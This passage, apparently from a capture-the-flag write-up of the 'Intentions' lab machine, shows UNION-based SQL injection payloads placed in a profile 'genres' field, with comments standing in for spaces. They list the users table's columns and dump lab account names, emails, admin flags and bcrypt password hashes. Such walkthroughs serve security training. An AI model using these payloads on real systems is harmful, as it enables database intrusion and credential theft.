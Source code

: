 ```
            "created_at":"1970-01-01T00:00:04.000000Z",
            "updated_at":"1970-01-01T00:00:05.000000Z",
            "url":"\/storage\/intentions"
        }
    ]
}

```

The only database is `intentions`, and there are four tables: `gallery_images`, `personal_access_tokens`, `migrations`, and `users`.

The most immediately interesting table is `users`. I’ll update my genres to list the columns in that table:

```

')/**/UNION/**/SELECT/**/1,2,column_name,4,5/**/from/**/information_schema.columns/**/where/**/table_name='users'#

```

This returns `id`, `name`, `email`, `password`, `created_at`, `updated_at`, and `genres`. I’ll update my query to get all of the interesting information in one column using `concat`:

```

')/**/UNION/**/SELECT/**/1,2,concat(name,':',email,':',admin,':',password,':',genres),4,5/**/from/**/users#

```

I get the following users:

```

steve:steve@intentions.htb:1:$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa:food,travel,nature
greg:greg@intentions.htb:1:$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m:food,travel,nature
Melisa Runolfsson:hettie.rutherford@example.org:0:$2y$10$bymjBxAEluQZEc1O7r1h3OdmlHJpTFJ6CqL1x2ZfQ3paSf509bUJ6:food,travel,nature
Camren Ullrich:nader.alva@example.org:0:$2y$10$WkBf7NFjzE5GI5SP7hB5/uA9Bi/BmoNFIUfhBye4gUql/JIc/GTE2:food,travel,nature
Mr. Lucius Towne I:jones.laury@example.com:0:$2y$10$JembrsnTWIgDZH3vFo1qT.Zf/hbphiPj1vGdVMXCk56icvD6mn/ae:food,travel,nature
Jasen Mosciski:wanda93@example.org:0:$2y$10$oKGH6f8KdEblk6hzkqa2meqyDeiy5gOSSfMeygzoFJ9d1eqgiD2rW:food,travel,nature
Monique D'Amore:mwisoky@example.org:0:$2y$10$pAMvp3xPODhnm38lnbwPYuZN0B/0nnHyTSMf1pbEoz6Ghjq.ecA7.:food,travel,nature
Desmond Greenfelder:lura.zieme@example.org:0:$2y$10$.VfxnlYhad5YPvanmSt3L.5tGaTa4/dXv1jnfBVCpaR2h.SDDioy2:food,travel,nature
Mrs. Roxanne Raynor:pouros.marcus@example.net:0:$2y$10$UD1HYmPNuqsWXwhyXSW2d.CawOv1C8QZknUBRgg3/Kx82hjqbJFMO:food,travel,nature
Rose Rutherford:mellie.okon@example.com:0:$2y$10$4nxh9pJV0HmqEdq9sKRjKuHshmloVH1eH0mSBMzfzx/kpO/XcKw1m:food,travel,nature
Dr. Chelsie Greenholt I:trace94@example.net:0:$2y$10$by.sn.tdh2V1swiDijAZpe1bUpfQr6ZjNUIkug8LSdR2ZVdS9bR7W:food,travel,nature
Prof. Johanna Ullrich MD:kayleigh18@example.com:0:$2y$10$9Yf1zb0jwxqeSnzS9CymsevVGLWIDYI4fQRF5704bMN8Vd4vkvvHi:food,travel,nature
Prof. Gina Brekke:tdach@example.com:0:$2y$10$UnvH8xiHiZa.wryeO1O5IuARzkwbFogWqE7x74O1we9HYspsv9b2.:food,travel,nature
Jarrett Bayer:lindsey.muller@example.org:0:$2y$10$yUpaabSbUpbfNIDzvXUrn.1O8I6LbxuK63GqzrWOyEt8DRd0ljyKS:food,travel,nature
Macy Walter:tschmidt@example.org:0:$2y$10$01SOJhuW9WzULsWQHspsde3vVKt6VwNADSWY45Ji33lKn7sSvIxIm:food,travel,nature
```